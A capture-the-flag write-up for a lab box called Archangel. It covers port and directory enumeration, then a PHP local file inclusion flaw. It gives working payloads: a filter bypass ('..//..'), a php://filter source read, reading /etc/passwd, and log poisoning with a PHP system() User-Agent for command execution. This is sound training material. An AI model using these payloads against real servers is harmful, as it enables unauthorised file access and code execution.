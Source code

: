 # Archangel

## Enumeration

### NMAP

The first step to understanding what we are attacking is to determine what ports the target has open and see what service we can find.  

Command:

```bash
nmap -A -p- -oN nmap/all_port_aggressive $TARGET
```

Results:

```bash
Nmap scan report for 10.10.227.48
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   18.25 ms 10.6.0.1
2   ... 3
4   82.34 ms 10.10.227.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.32 seconds
```

### Website (Manual)

Not everything about enumeration can be automated, so we should look at the site being hosted by the target and see if we can discover any more information. One thing that stands out almost immediately is the domain mentioned in the `Send us a mail:` prompt at the top of the page. We can add this to `/etc/hosts` to see if there is virtual hosting being done on the target. If there is, then adding this to the `/etc/hosts` file and navigating to `http://mafialive.thm` will bring us to a different site.

![WaveFireSite](../media/pictures/archangel_wavefire_site.png)

When we navigate to `mafialive.thm` we are greeted with a basic HTML page that tells us it is under development and gives us a flag.

![MafialiveMain](../media/pictures/archangel_underdev_main.png)

Now we can begin to enumerate this site for hidden directories.

Command:

```bash
gobuster dir -u http://mafialive.thm -w <wordlist> -t 50 -x php -o mafialive_main
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/16 20:05:53 Starting gobuster in directory enumeration mode
===============================================================
/test.php             (Status: 200) [Size: 286]
/server-status        (Status: 403) [Size: 278]
                                               
===============================================================
2022/12/16 20:06:52 Finished
===============================================================
```

## Local File Inclusion (LFI)

We have discovered a `test.php` page and nothing else. Taking a look at this page, there is a simple button on it that displays a phrase when we click it. Looking at the URL,  however, discloses a parameter `view` whose value is a filepath.

![MafialiveTest1](../media/pictures/archangel_underdev_test1.png)

Let's see if we can get the source for the `test.php` page by replacing `mrrobot.php` with `test.php`. A basic replace didn't work, so we can try using a PHP filter to convert it to base64 and smuggle it out. By replacing `/var/www/html/development_testing/mrrobot.php` with `php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php` we can get the base64 encoded source code returned to us. 

Source:

```php
<?php
//FLAG: <REDACTED FOR WRITEUP>
function containsStr($str, $substr) {
	return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
	if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
		include $_GET['view'];
	}else{
		echo 'Sorry, Thats not allowed';
	}
}
?>
```

The part we are intersted in is the `<?php ... ?>` piece where the hidden PHP code is written. This shows us a few interesting things we can use to our advantage: 1) `/var/www/html/development_testing` must be in the `view` parameter and 2) the path cannot contain `../..`. The simple filter imposed by the code is easy to get around by adding an additional `/` to `../..`, turning it into `..//..`. Next we can perform a path traversal to any location the user running the website has access to by walking up the directory tree starting at `/var/www/html/development_testing` using `..//..`. We can test this to make sure our theory is correct by targeting `?view=/var/www/html/development_testing/..//..//..//..//..//..//../etc/passwd`.

![MafialiveTestLFIConfirm](../media/pictures/archangel_underdev_test2.png)

When we attempt the LFI attack, we successfully get back the `/etc/passwd` file. This confirms our theory. 


## Remote Code Execution (RCE)

Reading file content is good, but executing arbitraty commands is better. How, then, can we achieve our objective? The answer: `Log Poisoning`. Since we can read local files, we can read the server's log file. We also know that this site is written in PHP, meaning we may be able to inject a command into the log and have the server execute it for us. Webserver logs generally log the IP address of the requesting machine, the path, response code, user-agent, and time. Out of these, we have control over the path and user-agent. We are using the path to read files, meaning the user-agent is what we will poison the log with. 

By injecting PHP into the `User-Agent` header, we can add a URL parameter to the site. This URL parameter is where we will add the command we want to run. Let's assume we want to add a new parameter `c` using log poisoning via the `User-Agent`.  To achieve this, we will replace the existing `User-Agent` with the following:

```php
<?php system($_GET['c']); ?>
```

When the server gets a request with the above payload as the `User-Agent`, it will evaluate it and execute the PHP code. After this parameter is injected, we can make a request to the server that looks like:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/../../../../../var/log/apache2/access.log&c=cat /etc/passwd
```

Now when you go back and check the log, the contents of `/etc/passwd` should be in the location of that request's `User-Agent`.